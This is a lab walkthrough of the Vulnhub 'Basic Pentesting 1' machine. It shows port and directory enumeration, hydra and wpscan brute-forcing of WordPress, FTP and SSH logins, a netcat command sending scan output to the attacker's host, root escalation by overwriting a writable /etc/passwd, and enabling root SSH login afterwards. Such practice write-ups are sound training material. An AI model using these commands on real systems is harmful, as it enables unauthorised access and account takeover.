*2021-08-22*

*kimm3*

# Walkthrough: Basic Pentesting 1
Platform: Vulnhub

Difficulty: (Very) Easy

- [Vulnhub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)
## Setup
I use my kali machine as dhcp-server on a virtual box internal network, where I connect the target machine.


## Scans and enumeration
```
export IP=192.168.10.2
sudo nmap $IP -p- -Pn -A -oA nmap/init-scan
```



1. It's a linux machine, Ubuntu
2. Three services to enumerate: fpt, ssh and http.

### HTTP
Index-page



`ffuf -u "http://192.168.10.2/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -o fuzz/indexdir -of md`





Appears to be a wordpress site. Any links points to hostname 'vtcsec'. Add to `/etc/hosts` to make it surfable.



It works and we gain access to the wp-login site, the user admin exists, but we don't have the password.

Before trying to brute-force it, I went on to check out the [ftp service.](#ftp)

### FTP


Anonymous login not possible.



The version used is vurnelable to backdoor command execution and there's a metasploit module for it, [more info](https://www.exploit-db.com/exploits/15662).

### SSH
It's possible to enumerate usernames for the ssh service [with this.](https://www.exploit-db.com/exploits/40136)


## Exploits
I found three ways to get root:
1. FTP backdoor
2. wp-login console and manipulating `/etc/passwd`
3. Or via wp-login and user marlinspike, weak password

## Exploit 1
The FTP backdoor looks most promising, lets start there.



Well thats easy.

## Exploit 2
**step 1**

Brute-forcing wp-login.php.

First of, the password is the default install password, so we really don't need to brute force it. If we do, the choice of wordlist makes a big difference in time. The 'rockyou.txt' works, but the password is at 19k line something. Metasploit has a 'http_default_pass.txt', search for it in your `/usr/share` folder.

### Using hydra
Take the http-post-form payload from your browser to not mess things up.

```hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt vtcsec http-post-form "/secret/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1:F=<title>Log In"```


### Using wpscan
The safe option, considering you don't have to write out the payload.

```wpscan --password-attack wp-login -U admin --url http://vtcsec/secret/ -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt ```



**step 2**

Using metasploit to gain meterpreter.




**step 3.1**

Privilege escalation via `/etc/passwd`



Run a privesc check, send the result to your machine for easier reading.
```
chmod u+x unix-privesc-check
./unix-privesc-check standard > output.txt

(nc -l -p 1234 > output.txt) # on receiver

nc -w 3 192.168.10.1 1234 < output.txt
```

Going through the file, look for 'WARNING:'.



/etc/passwd seems to be writeable by everyone. If a present is present in `/etc/passwd` it will take precedence over `/etc/shadow`.

Generate a new hash for root with `openssl passwd -1 "adminpassword"`.

Send the file over and use `su`.



**step 3.2**

Privilege escalation via user marlinspike.

We can see in the home folder or the `/etc/passwd` that there's a user called marlinspike.

Let's generate some passwords and try to log in via SSH.



If we don't have access to the password hash, we can try to brute-force one of the services to find the password.

`hydra -l marlinspike -P marlin.txt ftp://vtcsec`





The share is in the users home folder.

`hydra -l marlinspike -P marlin.txt ssh://vtcsec -t 4`





The user has full sudo privs.

## Post Exploitation
The sshd_config does not permit ssh login for root with password. Change the 'prohibit-password' to 'yes' and our new password will work.




